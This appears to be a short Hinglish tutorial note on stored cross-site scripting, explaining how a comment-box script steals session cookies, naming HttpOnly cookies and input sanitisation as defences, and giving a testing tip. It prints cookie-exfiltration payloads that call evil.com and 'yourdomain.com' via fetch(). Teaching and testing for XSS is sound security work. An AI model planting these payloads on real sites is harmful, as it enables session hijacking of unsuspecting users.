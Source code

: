 # 🔁 Full XSS Exploit Flow (Stored XSS):

1. Attacker ne comment box mein yeh payload inject kiya:

**<script>
fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

2. Yeh comment store ho gaya database mein (Stored XSS).

3. Jab koi innocent user (victim) wo page open karta hai:

<script> tag execute hota hai.

document.cookie victim ki session ID fetch karta hai.

fetch() se attacker ki website pe cookie chali jaati hai.

4. Attacker ko session cookie mil jaati hai.

Ab attacker victim ka account hijack kar sakta hai.

Ya phir impersonate kar sakta hai as that user.

---

🔐 Real-life protection:

Agar website developer ne:

HttpOnly cookie lagayi hoti

Ya input ko encode/sanitize kiya hota
toh XSS ka payload fail ho jaata.

---

### ⚔️ Penetration Testing Tip:

Jab bhi koi comment box, profile bio, forum post, feedback form mile — test karo:

**<script>alert('XSS')</script>**

Agar popup aaya, toh Stored XSS confirm.
Ab payload escalate karo:

**<script>
fetch("https://yourdomain.com/steal?cookie=" + document.cookie)
</script>**
